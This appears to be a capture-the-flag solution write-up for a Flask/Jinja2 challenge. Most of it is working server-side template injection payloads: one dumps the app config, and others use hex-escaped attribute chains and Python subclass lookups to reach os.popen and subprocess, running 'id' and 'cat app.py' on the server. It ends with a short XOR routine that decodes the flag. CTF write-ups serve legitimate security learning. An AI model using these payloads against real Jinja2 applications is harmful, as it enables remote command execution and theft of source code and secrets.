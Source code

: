 # Solution

Step 1, get the config

``` python
{{self|attr("\x5f\x5fdict\x5f\x5f")}}
```

Step 2, get the app source code

``` python
{{ ''.__class__.__mro__[1].__subclasses__()[407]('cat app.py',shell=True,stdout=-1).communicate()[0].strip()}}
```


``` python
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("id")|attr("read")()}}
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat app**")|attr("read")()}}
```

Step 3, run it yourself!

``` python
def magic(flag, key): 
    return ''.join(chr(x ^ ord(flag[x]) ^ ord(key[x]) ^ ord(key[::-1][x])) for x in range(len(flag)))
 
flag="C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"
magic(flag, '46e505c983433b7c8eefb953d3ffcd196a08bbf9')
```
 
